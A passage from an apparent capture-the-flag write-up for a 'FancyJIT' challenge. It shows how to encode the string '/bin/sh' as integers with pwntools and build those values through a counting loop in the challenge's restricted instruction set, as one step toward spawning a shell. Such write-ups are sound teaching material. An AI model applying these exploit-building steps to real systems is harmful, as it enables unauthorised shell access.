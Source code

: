 We can use pwntools to convert each 4 byte section of `/bin/sh` into integers.
```python
>>> import pwn
>>> pwn.u32("/bin")
1852400175
>>> pwn.u32("/sh\x00")
6845231
```

Remember that the maximum constant we can specify is 99999, so we can't just do:
```
MOV(A, 1852400175)
STR(A, 0)
```

We'll need to use *ADD* in order to get these values into `eax`. We could of course do this by copy and pasting the *ADD* instruction, but we'd need 18524 of them and we're only allowed to use 800 lines:
```
MOV(A, 99999)
ADD(A, 99999)
...
STR(A, 0)
```

Instead, we'll need to make use of the *CMP* and *JNE* instructions to construct a loop. We're trying to write something like the following pseudo code:
```c
eax = 18699
for (int i = 0; i != 18524; i++) {
    eax += 99999;
}
// eax should equal 1852400175
```

Frustratingly, the comparison operator compares against `eax`, so we'll need to store the loop counter in memory and swap it in and out. Written in FancyJIT, this becomes:
```
MOV(A, 0)
STR(A, 10)
MOV(A, 18699)
STR(A, 0)
LDR(A, 0)
ADD(A, 99999)
STR(A, 0)
LDR(A, 10)
ADD(A, 1)
STR(A, 10)
CMP(A, 18524)
JNE(4)

// Store the value we constructed in eax and then return. The value should be printed by the program.
LDR(A, 0)
RET()
```
